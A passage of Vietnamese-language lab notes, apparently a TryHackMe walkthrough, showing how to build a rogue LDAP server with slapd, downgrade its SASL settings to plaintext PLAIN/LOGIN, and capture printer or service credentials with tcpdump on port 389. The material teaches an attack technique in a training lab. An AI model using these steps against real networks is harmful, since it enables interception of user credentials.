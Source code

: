 Sau đó nhập target domain name

![image](https://hackmd.io/_uploads/HynXoJFMyx.png)

Sau đó sử dụng cùng tên Organisation

![image](https://hackmd.io/_uploads/rJjSjyYfJx.png)

![image](https://hackmd.io/_uploads/HyBIoJFM1l.png)

Chọn MDB as the LDAP database

![image](https://hackmd.io/_uploads/ByowskKfJx.png)

![image](https://hackmd.io/_uploads/SJsdjktzJg.png)

Trước khi sử dụng LDAP giả mạo, cần hạ cấp (khiến cho có lỗ hổng) hỗ trợ công cụ xác thực => plaintext. Để làm điều đó, ta tạo file ldif:

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
Trong đó:
- olcSaslSecProps: chỉ định thuộc tính bảo mật SASL
- noanonymous: disable công cụ hỗ trợ đăng nhập ẩn danh
- minssf: mức độ bảo vệ: 0


patch our LDAP server
```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

Xác minh xem máy chủ LDAP OK chưa

```
[thm@thm]$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

__Capturing LDAP Credentials__

![image](https://hackmd.io/_uploads/ry2z01tGJe.png)

Khi bị lỗi này, bật tcpdump

```
[thm@thm]$ sudo tcpdump -SX -i breachad tcp port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10:41:52.979933 IP 10.10.10.201.49834 > 10.10.10.57.ldap: Flags [P.], seq 4245946075:4245946151, ack 1113052386, win 8212, length 76
	0x0000:  4500 0074 b08c 4000 8006 20e2 0a0a 0ac9  E..t..@.........
	0x0010:  0a0a 0a39 c2aa 0185 fd13 fedb 4257 d4e2  ...9........BW..
	0x0020:  5018 2014 1382 0000 3084 0000 0046 0201  P.......0....F..
	0x0030:  0263 8400 0000 3d04 000a 0100 0a01 0002  .c....=.........
	0x0040:  0100 0201 7801 0100 870b 6f62 6a65 6374  ....x.....object
	0x0050:  636c 6173 7330 8400 0000 1904 1773 7570  class0.......sup
	0x0060:  706f 7274 6564 5341 534c 4d65 6368 616e  portedSASLMechan
	0x0070:  6973 6d73                                isms
10:41:52.979938 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [.], ack 4245946151, win 502, length 0
	0x0000:  4500 0028 247d 4000 4006 ed3d 0a0a 0a39  E..($}@.@..=...9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
```